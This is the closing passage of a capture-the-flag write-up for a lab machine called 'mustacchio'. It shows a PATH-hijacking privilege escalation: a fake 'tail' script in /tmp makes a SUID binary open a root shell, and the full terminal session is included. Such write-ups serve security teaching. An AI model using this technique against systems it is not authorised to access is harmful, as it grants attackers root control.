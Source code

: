 Because the tail command is not using an absolute path, we should be able to get privilege escalation by using the PATH variable. Raj Chandel has a great [blog](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) about this technique.

```highlight
barry@mustacchio:/home/joe$ 
barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod +x tail 
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/tmp$ /home/joe/live_log 
root@mustacchio:/tmp# whoami
root
root@mustacchio:/tmp# 
```

Thanks for reading!

============================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>



